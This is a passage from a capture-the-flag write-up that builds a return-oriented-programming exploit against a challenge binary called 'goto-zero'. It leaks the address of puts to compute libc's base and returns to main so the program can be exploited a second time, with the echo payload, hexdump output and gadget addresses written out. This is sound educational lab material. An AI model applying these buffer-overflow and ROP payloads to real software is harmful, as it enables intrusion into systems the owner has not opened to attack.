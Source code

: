 Notice the `�@�Q�V` at the end? That's the address of `puts` in `libc.so` (and, as such, it changes every time)! We can see it better with `hexdump`:

```
$ ./goto-zero.patched < test.bin | hexdump -C
00000000  45 6e 74 65 72 20 31 34  20 63 68 61 72 61 63 74  |Enter 14 charact|
00000010  65 72 73 20 74 68 65 6e  20 70 72 65 73 73 20 65  |ers then press e|
00000020  6e 74 65 72 21 0a 57 68  61 74 20 69 73 20 79 6f  |nter!.What is yo|
00000030  75 72 20 6e 61 6d 65 3f  0a 0a 47 6f 6f 64 20 6a  |ur name?..Good j|
00000040  6f 62 2c 20 42 42 42 42  43 43 43 43 44 44 44 44  |ob, BBBBCCCCDDDD|
00000050  45 45 45 45 46 46 46 46  47 47 47 47 48 48 48 48  |EEEEFFFFGGGGHHHH|
00000060  49 49 49 49 4a 4a 4a 4a  4b 4b 4b 4b 4c 4c 4c 4c  |IIIIJJJJKKKKLLLL|
00000070  4d 4d 4d 4d 4e 4e 4e 4e  4f 4f 4f 4f 81 12 40 a0  |MMMMNNNNOOOO..@.|
00000080  d0 98 ca 12 7f 0a                                 |......|
```

See how (other than the newline - `0a`) it ends with, in reverse order, `0x7f12ca98d0a0`? If we check the symbol exports for `/lib64/libc.so`, we'll see that the address for `puts()` ends with the same number:

```
$ objdump -T /lib64/libc.so.6 | grep puts
00000000000840a0  w   DF .text  0000000000000206  GLIBC_2.2.5 puts
```

That's a very good sign!

If we do some math, `0x7f12ca98d0a0 - 0x840a0 = 0x7f12ca909000`, which is the address where `libc.so` was loaded on that particular execution. Now we can use that to figure out the address of any other `libc.so` function starting from that base address and adding the offset!

### The final return

Okay, where do we want to return after we've leaked the address?

This is what took me a bit of time, and where I found a technique that I'd never used before (though I betcha every other CTF player has) - we can return to the top of `main()` and let the program have its Groundhog Day - it starts from the top, and as far as it knows, nothing has happened. You can just exploit it again, but this time we know an address in libc!

Here's our final ROP stack (for now):

* `pop rdi / ret` (0x401281)
* **The address we want to leak (0x404000)**
* `puts()` (0x401030)
* `main()` (0x401196)

Let's run it:

```
$ echo -ne 'AAAAAAAAAAAAAA\n''BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO''\x81\x12\x40\x00\x00\x00\x00\x00''\x00\x40\x40\x00\x00\x00\x00\x00''\x30\x10\x40\x00\x00\x00\x00\x00''\x96\x11\x40\x00\x00\x00\x00\x00' > test.bin

$ ./goto-zero.patched < test.bin
Enter 14 characters then press enter!
What is your name?

Good job, BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO�@Enter %d characters then press enter!

Enter 14 characters then press enter!
What is your name?

Good job, ����fish: Job 1, './goto-zero.patched < test.bin' terminated by signal SIGSEGV (Address boundary error)
```
